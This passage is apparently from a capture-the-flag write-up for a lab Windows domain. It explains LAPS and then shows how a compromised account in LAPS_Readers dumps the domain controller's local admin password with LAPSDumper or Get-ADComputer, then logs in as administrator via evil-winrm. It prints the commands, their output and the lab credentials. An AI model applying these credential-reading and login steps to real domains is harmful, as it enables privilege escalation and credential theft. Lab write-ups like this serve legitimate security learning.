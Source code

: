 Interesting, the most usefull piece of information here is the user being member of `LAPS_Readers` group! this should be our attack path, 

### What is LAPS?

**LAPS (Local Administrator Password Solution)** is a Microsoft tool that **automatically manages and randomizes local administrator passwords on domain-joined Windows machines**, storing them securely in Active Directory so that each machine has a unique password.

- **Purpose:** Prevents lateral movement using shared local admin accounts.
- **Key points:**
    - Unique, randomized password per machine
    - Stored in AD (readable only by authorized users/groups)
    - Automatically updated on a schedule

In short: **centralized, secure, automated local admin password management for AD environments**.

Now that we understood what LAPS is, lets find a way to abuse it:

## Leaking the LAPS password

I found this tool LAPSDumper, and by using it:

```bash
python laps.py -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d 'timelapse.htb'
```

it gave out this information, which appears like a password:

```bash
LAPS Dumper - Running at 08-18-2025 17:00:02
DC01 9}l51+KEIZsflR#JhxCbaG5U
```

Alternatively, we could read the LAPS password from inside the host using native windows commands:

```bash
*Evil-WinRM* PS C:\Users\TRX\Desktop> Get-ADComputer DC01 -property 'ms-mcs-admpwd'

DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : 9}l51+KEIZsflR#JhxCbaG5U
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```

## Logging in as Administrator with LAPS password

Lets try to login to administrator using this password

```bash
evil-winrm -i timelapse.htb -u administrator -p '9}l51+KEIZsflR#JhxCbaG5U' -S
```
